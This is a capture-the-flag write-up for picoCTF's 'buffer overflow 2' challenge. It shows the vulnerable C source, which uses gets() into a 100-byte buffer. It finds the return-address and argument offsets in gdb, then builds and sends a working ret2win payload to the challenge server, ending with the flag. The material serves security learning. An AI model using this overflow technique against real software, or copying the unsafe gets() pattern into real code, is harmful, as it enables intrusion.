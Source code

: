 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/QrT2WHP.png
points: 300
solves: 3110
tags: pwn pwn/buffer-overflow pwn/ret2win pwn/args-on-stack pwn/gets
date: 1337-01-01
comments: false
---
```


Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln)?  
You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln.c) here. And connect with it using `nc saturn.picoctf.net [port #]`

---
We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

First things first, do `nano flag.txt` and enter whatever text you’d like into it. This is just so you can run the program in your local machine.  

## Source Analysis:  
Now, looking at the code, and knowing this is a buffer overflow challenge, we notice that the `main()` function calls the `vuln()` function, which then uses the `gets()` function to obtain user input. The `gets()` function is known to be insecure, so we can attack this line of code with a buffer overflow.  

The program retrieves user input and stores it into a variable buf with a buffer size of `BUFSIZE=100`. Hence, all inputs past byte 100 should overflow onto the stack.  

We are also given a `win` function, which retrieves the `flag.txt` file and prints it if two conditions are required: `arg1`, the first function parameter, must be equivalent to `0xcafef00d` and `arg2`, the second function parameter, must be equivalent to `0xf00df00d`.  

Thus, we must do as follows:  

1. Write the win function address into the eip register, which denotes the address of the next instruction to run and is stored somewhere in the stack.  
2. Modify the arg1 and arg2 such that they equal the aforementioned values.  

## Dynamic Analysis:  

### Step 1:  
`chmod +x vuln` to allow execution access
`gdb vuln` to launch the gdb debugger

Use a website (or make your own program) that returns a random string of any length. I personally used a length of 120 (anything reasonably greater than 100 is suitable for now, given that we need to input a value longer than the buffer length) and only the characters 0-9.   

My string was  

    850542294469848845479729569924849643415873641680750387752959608870162960336860448349356446615742071097671930231073322801

Now run the function with the r command and input the string. For my input, I received the following error message:  

    Program received signal SIGSEGV, Segmentation fault.
    0x32333337 in ?? ()


The `0x32333337` denotes the address that the program attempted to return to, i.e. what was written into the eip register. `0x32333337` is `2337` in ascii, but because of little endianness, we have to reverse this string ⇒ `7332`.  
Looking back at the string, notice that `7332` is located at decimal offset 112

<pre>8505422944698488454797295699248496434158736416807503877529596088701629603368604483493564466157420710976719302310<b>7332</b>2801</pre>

Thus, `eip`, the return address register, can be overwritten with the bytes at offset 112 in the input.  

We need to write the win function address into `eip`, so let’s check that with gdb.  
`disass win` should show that the function is located at address `0x08049296`  

Hence, we can write an input file to send to the program:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08' >> input</code>
</pre>

Let's test it out:  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b win
r < input</code>
</pre>

Confirm that the program pauses execution at `Breakpoint 1, 0x0804929e in win ()`  

### Step 2:  
Now we need to modify `arg1` and `arg2` to `0xcafef00d` and `0xf00df00d`.  
`disass win` includes these two lines of assembly:  

    0x0804930c <+118>:   cmpl   $0xcafef00d,0x8(%ebp)
    0x08049315 <+127>:   cmpl   $0xf00df00d,0xc(%ebp)

Comparing it to the source code, this tells us that `arg1` must be located at `$ebp+0x8` and `arg2` must be located at `$ebp+0xc`.  

Let’s check the offset of `ebp` in our input:  
Generate a random string again. I chose a random string of 32 numbers.  
`echo -n '59144761475142004167455988422375' >> input` to append your random string to your input file  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b *win+118
r < input</code>
</pre>

`x/2x $ebp+0x8` to show `$ebp+0x8` and `$ebp+0xc` in the stack ⇒  
`0xffd2d3b4:     0x31363734      0x31353734`  

`0x31363734` ⇒ `1674` in ASCII ⇒ reverse because of little endianness = `4761`  

<pre>5914<b>4761</b>475142004167455988422375</pre>

Thus, `$ebp+0x8` is located 4 bytes after `eip`, the return address, and `$ebp+0xc` is located 8 bytes after `eip`.
Let’s rewrite the input file:

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08\x00\x00\x00\x00\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0' >> input</code>
</pre>
(remember little endianness means you must reverse every group of four bytes)  

`./vuln < input` should return the contents of your flag.txt file!  
`nc -q 2 saturn.picoctf.net 64689 < input` to get the flag. Note that the `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{argum3nt5_4_d4yZ_27ecbf40}